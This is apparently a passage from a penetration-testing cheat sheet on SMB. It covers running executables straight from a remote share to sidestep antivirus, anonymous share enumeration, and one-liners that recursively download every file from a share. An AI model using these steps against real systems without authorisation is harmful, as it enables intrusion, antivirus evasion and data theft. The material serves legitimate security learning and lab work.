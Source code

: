 You can also execute binaries and scripts straight from a remote share. Can help with AV issues.
```bash
### execute from SMB share
\\<remote_ip>\<remote_smb_share>\somefile.bat
\\<remote_ip>\<remote_smb_share>\somefile.exe
```

## Smbclient

The regular smbclient, which can be found on most Linux distros.

```bash
# List shares
smbclient -U anonymous -L //10.10.10.130

# Interact with share
smbclient -U anonymous //10.10.10.130/sharename
smb: \> ls
smb: \> get <file>

# NT errors fix for old SMB versions
smbclient -p 139 -L //10.10.10.130/ --option='client min protocol=NT1'

# backslash variant
smbclient \\\\10.10.10.130\\tmp

# common commands
> help
> dir
> ls
> del <filename>
> makedir
> put <file>        # upload exact filename
> get <file>        # download exact filename
> mget <pattern>    # download files matching pattern
> mput <pattern>
> quit

# change local dir on your own machine (download destination)
> lcd '~/whatever/dir'

# download all files
> mask ""
> recurse ON
> prompt OFF
> mget *

# Download all files (one liner)
smbclient '\\server\share' -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'
```

## Rpcclient
